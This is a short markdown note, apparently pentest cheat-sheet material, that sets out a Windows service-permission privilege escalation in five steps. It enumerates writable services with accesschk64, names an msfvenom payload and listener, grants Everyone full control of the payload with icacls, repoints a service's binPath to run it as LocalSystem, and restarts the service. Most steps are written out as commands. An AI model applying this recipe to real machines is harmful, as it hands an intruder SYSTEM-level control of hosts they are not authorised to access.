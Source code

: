 # Example:

### 1: Use accesschk64.exe (sysinternals)

### accesschk64.exe -qlc SERVICE

### 2: msfvenom payload, then setup listener

### 3: Grant full access to payload 

### icacls c:\path\to\payload.exe /grant Everyone:F

### 4: sc config SERVICE binPath="c:\path\to\payload.exe" obj= LocalSystem

### 5: Restart Service
